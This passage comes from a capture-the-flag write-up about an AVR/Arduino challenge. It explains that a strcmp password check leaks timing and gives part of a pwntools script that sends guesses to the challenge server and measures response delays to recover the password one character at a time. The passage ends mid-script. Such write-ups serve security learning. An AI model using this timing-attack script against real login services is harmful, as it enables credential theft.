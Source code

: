 ```c
    quit();
}
```

To summarize: the code essentially asks us for two passwords - one to login and one to view the flag.

There's some weird AVR/Arduino stuff going on, such as UARTs. From my limited understanding, this is basically just a way for the program to actually read input from somewhere.

Indeed, if we look at `simavr.diff`, we see that the patch is simply hardcoding some inputs and outputs to be stdin and stdout.

For now, let's focus on recovering the first password. Just by looking at the code, we immediately note a bunch of suspicious things:

- We're given infinite attempts to login within a certain timeout.
- The two passwords are checked in a different way - the first password uses strcmp() while the second uses XOR operations.
- Finally, perhaps the most obvious hint, is that the program conveniently prints out a high granularity timer for us.

All of this combined leaves us with the answer on how to recover the first password: timing attack. This is possible because strcmp() returns the moment it realizes the string is not equal and does not have constant time. This means that `strcmp("test", "nope")` will actually be faster than `strcmp("test", "tes!")` because the first three characters of `test` and `tes!` match.

Our first attempt (courtesy of my teammate `hgarrereyn`) was this script:

```python
from pwn import *

def test(CHARS):
    s = remote('avr.2020.ctfcompetition.com', 1337)
    s.sendafter('Press ENTER to continue.', '\n')

    inp = ''.join(['agent\x00\n%s?\n' % c for c in CHARS])
    s.send(inp)

    def get_time():
        base = s.recvuntil('Login: ')
        base = base.split('\n')[-2].split(': ')[1].split('us')[0]
        base = int(base)
        return base

    base = get_time()
    delay = []
    for i in range(len(CHARS)):
        t = get_time()
        delay.append(t - base)
        base = t

    s.close()

    scores = list(zip(CHARS, delay))

    total = {x: 0 for x in list(set(CHARS))}
    for s in scores:
        total[s[0]] += s[1]

    return total

def test_all():
    CHARS = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_abcdefghijklmnopqrstuvwxyz'

    # CHARS = 'HXY'

```